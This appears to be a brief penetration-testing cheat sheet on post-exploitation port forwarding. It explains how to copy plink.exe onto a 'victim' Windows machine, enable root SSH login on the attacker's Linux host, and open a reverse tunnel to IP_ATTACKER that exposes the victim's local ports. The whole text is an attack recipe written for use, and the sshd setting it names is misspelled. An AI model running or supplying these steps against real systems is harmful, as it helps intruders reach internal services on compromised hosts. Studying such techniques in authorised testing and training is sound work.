 # Port Forwarding

* Download plink.exe -> https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
* Transfer plink to the victim machine
* apt install ssh -> On linuc
* Edit /etc/ssh/sshd_config, change #PermiRootLogin prohibit-password to PermiRootLogin yes
* ssh service restart
* ssh service start
[+] On the windows victim machine
* plink.exe -l root -pw YOUR_SSH_PASSWORD -R PORT:127.0.0.1:PORT IP_ATTACKER
If you have troubles uncomment the Port 22 and change for Port 8888 on file /etc/ssh/sshd_config
* plink.exe -l root -pw YOUR_SSH_PASSWORD -P 8888 -R PORT:127.0.0.1:PORT IP_ATTACKER
* y

[!] TRY TO USE THE ENTER KEY A COUPLE OF TIMES IN CASE YOU DON'T SEE NOTHING
